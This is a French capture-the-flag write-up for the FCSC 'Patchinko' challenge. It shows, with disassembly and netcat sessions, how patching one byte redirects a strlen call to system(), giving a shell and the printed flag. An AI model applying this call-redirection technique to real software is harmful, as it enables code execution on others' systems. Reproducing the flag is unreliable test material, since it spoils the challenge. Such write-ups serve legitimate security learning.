

# 
Patchinko

Pour ce challenge on se retroube sur un executable qui nous demander de modifier la valeur d'un octet de celui-ci pour ensuite se lancer.

    saymant@PC:~/Desktop/Bureau/FCSC/Write up/FCSC/Pwn/Patchinko$ nc challenges1.france-cybersecurity-challenge.fr 4009
    ================================
    == Patchinko Gambling Machine ==
    ================================

    We present you the new version of our Patchinko Gambling Machine!
    This is a game of chance: you need to guess a 64-bit random number.
    As we have been told that it is quite hard, we help you.
    Before the machine executes its code, you can patch *one* byte of its binary.
    Choose wisely!

    At which position do you want to modify (base 16)?
    >>> aa
    Which byte value do you want to write there (base 16)?
    >>> aa
    == Let's go!
    Hello! Welcome to Patchinko Gambling Machine.
    Is this your first time here? [y/n]
    >>> y
    Welcome among us! What is your name?
    >>> saymant
    Nice to meet you saymant!
    Guess my number
    -2907621876399985308
    -2907621876399985308
    Wow, you win!! Congratulations! Contact us to claim your prize.

désassemblons l'executable pour voir ce qu'il se passe

    pwndbg> disass main
    Dump of assembler code for function main:
       0x0000000000400826 <+0>:	push   rbp
       0x0000000000400827 <+1>:	mov    rbp,rsp
       0x000000000040082a <+4>:	sub    rsp,0x60
       0x000000000040082e <+8>:	mov    rax,QWORD PTR [rip   +0x20084b]        # 0x601080 <stdout@@GLIBC_2.2.5>
       0x0000000000400835 <+15>:	mov    ecx,0x0
       0x000000000040083a <+20>:	mov    edx,0x2
       0x000000000040083f <+25>:	mov    esi,0x0
       0x0000000000400844 <+30>:	mov    rdi,rax
       0x0000000000400847 <+33>:	call   0x400700 <setvbuf@plt>
       0x000000000040084c <+38>:	lea    rdi,[rip+0x205]        #     0x400a58
       0x0000000000400853 <+45>:	call   0x4006d0 <system@plt>
       0x0000000000400858 <+50>:	lea    rdi,[rip+0x231]        #     0x400a90
       0x000000000040085f <+57>:	mov    eax,0x0
       0x0000000000400864 <+62>:	call   0x4006e0 <printf@plt>
       0x0000000000400869 <+67>:	mov    rdx,QWORD PTR [rip   +0x200820]        # 0x601090 <stdin@@GLIBC_2.2.5>
       0x0000000000400870 <+74>:	lea    rax,[rbp-0xc]
       0x0000000000400874 <+78>:	mov    esi,0x4
       0x0000000000400879 <+83>:	mov    rdi,rax
       0x000000000040087c <+86>:	call   0x4006f0 <fgets@plt>
       0x0000000000400881 <+91>:	lea    rax,[rbp-0xc]
       0x0000000000400885 <+95>:	mov    rdi,rax
       0x0000000000400888 <+98>:	call   0x4006c0 <strlen@plt>
       0x000000000040088d <+103>:	sub    rax,0x1
    
       ...

On voit alors qu'on passe par un call de la fonction system() et un call de la fonction de strlen, tout deux dans la PLT. On voit aussi que le fgets() ne prends en compte que 0x4 octets (on ne va donc pouvoir rentrer que 4 charactères à cet endroit). Prenons l'adresse de cette fonction system()

    saymant@PC:~/Desktop/Bureau/FCSC/Write up/FCSC/Pwn/Patchinko$ objdump -d patchinko.bin | grep system
    00000000004006d0 <system@plt>:
      4006d0:	ff 25 62 09 20 00    	jmpq   *0x200962(%rip)        # 601038  <system@GLIBC_2.2.5>
      400853:	e8 78 fe ff ff       	callq  4006d0 <system@plt>

OK donc system se trouve à 0x4006d0.

On va d'arranger pour modif le strlen() par un system(), on sait donc qu'on devra modifier le 889e byte car dans l'executable desassemblé nous pouvons voir que strlen() se trouve au 889e octet (0x0000000000400888 + 1 pour arriver sur le strlen), il ne nous reste plus qu'à trouver quelle valeur nous allons mettre à cette adresse.

On va alors chercher cette valeur juste en calculant la distance qu'il y a entre le call de system et l'adresse de l'instruction qui suit le call de strlen (la fin du call de strlen)

    pwndbg> p/x 0x000000000040088d-0x00000000004006d0
    $7 = 0x1bd
    pwndbg> p/x 0x1000-0x1bd
    $8 = 0xe43

La valeur est donc 0x43. Testons ça !

    saymant@PC:~/Desktop/Bureau/FCSC/Write up/FCSC/Pwn/Patchinko$ nc challenges1.france-cybersecurity-challenge.fr 4009
    ================================
    == Patchinko Gambling Machine ==
    ================================

    We present you the new version of our Patchinko Gambling Machine!
    This is a game of chance: you need to guess a 64-bit random number.
    As we have been told that it is quite hard, we help you.
    Before the machine executes its code, you can patch *one* byte of its binary.
    Choose wisely!

    At which position do you want to modify (base 16)?
    >>> 889
    Which byte value do you want to write there (base 16)?
    >>> 43
    == Let's go!
    Hello! Welcome to Patchinko Gambling Machine.
    Is this your first time here? [y/n]
    >>> ls
    flag
    patchinko.bin
    patchinko.py
    Is this your first time here? [y/n]
    >>> cat flag

On arrive bien à executer la commande 'ls' mais on arrive pas à cat le flag, bizarre ...
Ah oui, c'est car comme nous l'avons vu dans l'analyse statique du binaire, le fgets ici ne va prendre que 4 charactères en compte (3 en fait car 3 + le null byte = 4 octets) essayons alors de pop un shell avec la commande 'sh'

    saymant@PC:~/Desktop/Bureau/FCSC/Write up/FCSC/Pwn/Patchinko$ nc challenges1.france-cybersecurity-challenge.fr 4009
    ================================
    == Patchinko Gambling Machine ==
    ================================
    
    We present you the new version of our Patchinko Gambling    Machine!
    This is a game of chance: you need to guess a 64-bit random     number.
    As we have been told that it is quite hard, we help you.
    Before the machine executes its code, you can patch *one*   byte of its binary.
    Choose wisely!
    
    At which position do you want to modify (base 16)?
    >>> 889
    Which byte value do you want to write there (base 16)?
    >>> 43
    == Let's go!
    Hello! Welcome to Patchinko Gambling Machine.
    Is this your first time here? [y/n]
    >>> sh
    ls
    flag
    patchinko.bin
    patchinko.py
    cat flag
    FCSC    {b4cbc07a77bb0984b994c9e34b2897ab49f08524402c38621a38bc447510   2998}
    
Voici donc notre flag ;)
